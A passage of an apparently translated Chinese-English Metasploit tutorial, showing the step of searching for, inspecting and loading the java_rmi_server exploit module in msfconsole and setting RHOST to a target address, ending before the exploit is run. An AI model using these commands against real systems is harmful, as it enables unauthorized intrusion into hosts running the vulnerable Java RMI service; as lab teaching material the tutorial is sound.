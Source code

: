 The Java RMI service running on the victim.

### **第六步**:在 msfconsole 中搜索&使用模块。

```
msf> search java_rmi
msf> info exploit/multi/misc/java_rmi_server
msf> use exploit/multi/misc/java_rmi_server
```

[![msfconsole](img/a99c9dae99871ad1a2e036cdabb80760.png)](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-3/)

Searching for matching module

[![msfconsole](img/9bb1b0bddf485ca62a38893b36a9860f.png)](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-4/)

using the module

现在你可以看到提示已经改变了。我们可以通过以下方式查看选项

```
>show options
```

设置 RHOST，它是运行易受攻击服务的目标。

```
set RHOST 192.168.0.104
```

记住设置所有具有“要求是”值的选项。请参见选项表。还要检查 RPORT 是否也正确。检查 nmap 结果&当前设置的端口，看看是否匹配。
